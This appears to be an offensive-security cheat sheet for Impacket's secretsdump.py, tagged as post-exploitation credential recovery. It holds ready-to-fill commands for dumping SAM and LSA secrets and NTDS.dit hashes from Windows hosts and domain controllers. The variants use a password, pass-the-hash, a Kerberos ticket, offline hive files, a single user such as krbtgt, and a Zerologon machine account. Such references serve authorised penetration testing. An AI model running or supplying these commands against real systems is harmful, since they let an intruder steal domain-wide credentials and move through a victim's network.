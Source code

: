 # secretsdump.py (imp)

% impacket-secrets, windows, smb, 445

#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 

## desc
```
Performs various techniques to dump secrets from the remote machine without executing any agent there. 

For SAM and LSA Secrets (including cached creds) we try to read as much as we can from the registry and then we save the hives in the target system (%SYSTEMROOT%\Temp directory) and read the rest of the data from there. 

For DIT files, we dump NTLM hashes, Plaintext credentials (if available) and Kerberos keys using the DL_DRSGetNCChanges() method. It can also dump NTDS.dit via vssadmin executed with the smbexec/wmiexec approach. The script initiates the services required for its working if they are not available (e.g. Remote Registry, even if it is disabled). After the work is done, things are restored to the original state.
```


## auth (creds)
```bash
secretsdump.py -debug <domain_fqdn>/<user>:'<password>'@<target_fqdn>
```

## auth (pth)
```bash
secretsdump.py -debug -hashes :<nt_hash> <domain_fqdn>/<user>@<target_fqdn>
```

## auth (ptt)
```bash
KRB5CCNAME=<ccache> secretsdump.py -debug -k -no-pass -dc-ip <dc_fqdn> -no-pass -k <domain_fqdn>/<user>@<target_fqdn>
```

## SAM & LSA  (creds)
```bash
secretsdump.py -debug -exec-method smbexec -outputfile <target_fqdn> <domain_fqdn>/<user>:'<password>'@<target_fqdn>
```

## SAM & LSA  (pth)
```bash
secretsdump.py -debug -exec-method smbexec -outputfile <target_fqdn> -hashes :<nt_hash> <domain_fqdn>/<user>@<target_fqdn> 
```

## SAM & LSA  (ptt)
```bash
KRB5CCNAME=<ccache> secretsdump.py -debug -exec-method smbexec -outputfile <target_fqdn> -dc-ip <dc_fqdn> -no-pass -k <domain_fqdn>/<user>@<target_fqdn>
```

## SAM (offline)
```bash
secretsdump.py -debug -outputfile <target_fqdn> -system <SYSTEM_FILE|system.save> -sam <SAM_FILE|sam.save> LOCAL
```

## LSA (offline)
```bash
secretsdump.py -debug -outputfile <target_fqdn> -system <SYSTEM_FILE|system.save> -security <SECURITY_FILE|security.save>' LOCAL
```

## NTDS - all (creds)
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status  <domain_fqdn>/<user>:'<password>'@<dc_fqdn>
```

## NTDS - all (pth)
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -hashes :<nt_hash> <domain_fqdn>/<user>@<dc_fqdn>
```

## NTDS - all (ptt)
```bash
KRB5CCNAME=<ccache> secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -no-pass -k <domain_fqdn>/<user>@<dc_fqdn>
```


## NTDS - user (creds)
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -just-dc-user <domain_fqdn>/<name|krbtgt> <domain_fqdn>/<user>:'<password>'@<dc_fqdn>
```

## NTDS - user (pth)
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -just-dc-user <domain_fqdn>/<name|krbtgt> -hashes :<nt_hash> <domain_fqdn>/<user>@<dc_fqdn>
```

## NTDS - user (ptt)
```bash
KRB5CCNAME=<ccache> secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -just-dc-user <domain_fqdn>/<name|krbtgt> -no-pass -k <domain_fqdn>/<user>@<dc_fqdn>
```

## NTDS - offline
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -ntds <NTDS_FILE|ntds_file.dit> -system <SYSTEM_FILE|system.save> LOCAL 
```


## NTDS - zerologon 
zerologon
```bash
secretsdump.py -debug -outputfile <dc_fqdn> -just-dc -user-status -no-pass <dc_name>\$/@<dc_fqdn>
```